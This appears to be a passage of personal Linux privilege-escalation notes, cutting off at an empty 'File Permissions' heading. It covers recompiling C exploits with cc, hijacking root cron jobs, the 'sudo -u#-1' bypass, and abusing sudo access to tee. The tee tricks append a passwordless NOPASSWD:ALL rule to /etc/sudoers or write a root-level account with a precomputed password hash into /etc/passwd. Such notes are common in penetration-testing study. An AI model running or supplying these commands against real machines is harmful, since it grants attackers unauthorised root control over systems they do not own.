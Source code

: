 grep -iR "string to find" / 2> /dev/null



### C exploits
 
Most exploits are written to gcc compatbility

if target doesnt have gcc we cannot run exloit properly but if target has cc compiler thean we can make our 
exploit compatible to cc by command

> sed -i "s/gcc/cc/g" priv.c

Now just compile the exploit and run it



   
### Cronjobs
**What to Look for: if cronjobs are being run by root or any other user then see if you can write to that file or not**
**If you cannot write to the file then try to duplicate the path of that file and make a copy of that file and its path to execute your shell**



-cat /etc/crontab

- cronjob -l   

- crontab -u <user> -e 


### sudo 

sudo -u#-1 <command>


### tee binary

if we have sudo access to tee binary then that means we can write any code in a priveleged file using tee

- we can either provide current user full sudo access using

> echo 'user ALL=(ALL) NOPASSWD:ALL' | sudo /usr/bin/tee -a /etc/sudoers

we can also  add a new user with root priveleges by writing to /etc/passwdd

below hash is of password "hello" and user "user"

the hash can be made using openssl

**REmember to escape the dollars signs  by \ when echoing**

> echo "user:\$1\$eW7g5Xc2\$iev85cxY0fh2mMp3DWUEv.:0:0:root:/root:/bin/bash" | sudo /usr/bin/tee -a /etc/passwd




### File Permissions
